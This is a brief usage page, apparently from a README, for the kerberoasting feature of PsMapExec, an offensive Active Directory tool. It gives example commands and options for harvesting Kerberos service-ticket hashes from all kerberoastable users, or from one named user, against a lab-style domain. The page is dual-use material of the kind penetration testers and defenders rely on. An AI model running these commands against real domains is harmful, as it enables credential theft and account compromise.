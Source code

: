 # Kerberoast

PsMapExec will now perform kerberoasting. By default, all kerberoastable users are obtained and written to file. All hashes are output to file and split into each file depending on the associated encryption.

Output is stored in: $PWD\PME\Kerberoast

### 1) Obtain all Kerberoastable users from target domain

    PsMapExec -Method kerberoast -Domain north.sevenkingdoms.local

### 2) Single user specification

    PsMapExec -Method Kerberoast -ShowOutput -Option Kerberoast:USER

# Optional Parameters

### 1) Set the Domain for which to run against

    -Domain domain.local

### 2) Specify a single user to roast than all candidate users

    -Option Kerberoast:USER

### 3) Displays hash output to the console

    -ShowOutput

